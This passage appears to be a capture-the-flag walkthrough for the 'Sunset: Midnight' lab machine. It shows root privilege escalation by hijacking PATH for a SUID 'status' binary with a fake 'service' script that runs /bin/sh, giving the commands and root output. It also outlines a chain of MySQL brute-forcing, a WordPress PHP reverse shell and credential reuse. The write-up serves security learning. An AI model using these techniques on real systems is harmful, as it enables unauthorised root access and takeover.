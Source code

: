 If we run strings on it we can see that it is calling the service binary but a PATH is not indicated.

<img src="/assets/resources/sunsetmidnight/sunset_strings.png" />

We can abuse this by doing the following:
1. creating a service binary which executes /bin/sh in a /tmp folder
2. changing the path to execute from /tmp/:$PATH
3. execute /usr/bin/status

```
jose@midnight:/var/www/html/wordpress$ cd /tmp/
jose@midnight:/tmp$ echo "/bin/sh" > service
jose@midnight:/tmp$ chmod +x service 
jose@midnight:/tmp$ export PATH=/tmp/:$PATH
jose@midnight:/tmp$ /usr/bin/status 
# whoami
root
```

## Breakdown
---
1. Hydra Bruteforce MySQl 
2. Login to MySQL change admin user creds
3. Browse to /wp-admin/ exposed in robots.txt 
4. Login as admin + password updated via MySQL
5. Theme Editor to replace a page to a php reverse shell
6. check /var/www/html/wordpress/ wp-config exposes user creds
7. su jose
8. suid binary of status exposed
9. strings status exposes service is called without a proper path
10. create service binary executes /bin/sh in /tmp
11. Add /tmp to path
12. execute /usr/bin/status
